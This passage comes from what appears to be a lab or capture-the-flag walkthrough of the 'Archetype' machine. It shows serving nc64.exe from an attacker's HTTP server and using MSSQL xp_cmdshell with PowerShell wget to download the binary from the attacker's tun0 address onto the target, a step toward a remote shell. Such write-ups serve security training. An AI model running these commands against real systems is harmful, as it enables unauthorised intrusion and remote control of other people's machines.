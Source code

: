 ![shell](./Screenshots/archetypeshell.png)

File is downloaded, now type:

```
python3 -m http.server 80
```

Remember to run the server in the directory where `nc64.exe` file is present.

![shell](./Screenshots/archetypeshell2.png)

As the `sql_svc` user, we lack privileges to upload files to system directories, which only the Administrator can do. Instead, we'll change our working directory to the `Downloads` folder, where we have write access. Using PowerShell, we can then utilize `wget` to download our binary.

Type:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{your tun0 ip address}/nc64.exe -outfile nc64.exe"
```

If you don't know your `tun0 ip address` use `ip a | grep tun0` or `ifconfig`.

![shell](./Screenshots/archetypeshell3.png)
